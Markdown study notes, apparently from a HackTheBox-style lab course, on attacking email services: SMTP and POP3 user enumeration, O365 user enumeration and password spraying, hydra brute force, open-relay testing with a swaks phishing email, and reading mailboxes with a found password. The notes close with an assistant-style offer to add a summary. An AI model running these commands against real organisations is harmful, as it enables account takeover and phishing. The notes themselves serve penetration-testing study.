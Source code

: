 
---

# SMTP & Email Service Enumeration Notes

## Enumeration

### Host – MX Records

```bash
host -t MX hackthebox.eu
```

### Host – A Records

```bash
host -t A mail1.inlanefreight.htb.
```

### DIG – MX Records

```bash
dig mx plaintext.do | grep "MX" | grep -v ";"
```

### Nmap – Mail Default Scripts

```bash
sudo nmap -Pn -sV -sC -p25,143,110,465,587,993,995 10.129.14.128
```

---

## Misconfigured SMTP Authentication

- SMTP may allow:
    
    - Anonymous authentication
        
    - User enumeration
        
- Risks:
    
    - User discovery
        
    - Brute-force attacks
        
    - Phishing campaigns
        

---

## User Enumeration via SMTP Commands

### VRFY Command

Check if a user exists.

```bash
telnet 10.10.110.20 25
VRFY root
```

### EXPN Command

Expand mailing lists or aliases.

```bash
telnet 10.10.110.20 25
EXPN support-team
```

### RCPT TO Command

Verify recipients during handshake.

```bash
telnet 10.10.110.20 25
MAIL FROM:test@htb.com
RCPT TO:john
```

### POP3 Enumeration (USER Command)

Check for valid POP3 users.

```bash
telnet 10.10.110.20 110
USER john
```

---

## Automating Enumeration

### smtp-user-enum

```bash
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```

- `-M` → Mode (VRFY, EXPN, RCPT)
    
- `-U` → Userlist file
    
- `-D` → Target domain
    
- `-t` → Target IP
    

---

## Cloud Enumeration

### O365 Spray – Validate Domain

```bash
python3 o365spray.py --validate --domain msplaintext.xyz
```

Check if a domain is using O365.

### O365 Spray – Enumerate Users

```bash
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz
```

- Enumerates potential users
    
- Outputs valid accounts to file
    

---

## Password Attacks

### Hydra – POP3 Password Attack

```bash
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```

### O365 Spray – Password Spraying

```bash
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```

---

## Protocol-Specific Attacks

### Open Relay

- SMTP server relays unauthenticated emails.
    
- Improper config allows anyone to send mail.
    
- Abused for phishing and spoofing attacks.
    

#### Nmap – Open Relay Test

```bash
nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
```

#### Sending Mail via Open Relay

```bash
swaks --from notifications@inlanefreight.com \
      --to employees@inlanefreight.com \
      --header 'Subject: Company Notification' \
      --body 'Hi All, complete the survey: http://mycustomphishinglink.com/' \
      --server 10.10.11.213
```

---

## Accessing Email Services

### POP3 Access with Netcat

```bash
nc -nv STMIP 110
user simon
pass 8Ns8j1b!23hs4921smHzwn
```

### Enumerating After Login

```bash
# List messages
LIST

# Retrieve message
RETR 1
```

#### Example Session

```bash
telnet int-ftp.inlanefreight.htb 110
user simon
pass 8Ns8j1b!23hs4921smHzwn
LIST
RETR 1
```

Message retrieved may include sensitive information, e.g. SSH keys.

---

Would you like me to also build a **TL;DR summary section** at the top (key commands + use cases) so this works like a one-page cheat sheet for quick recall?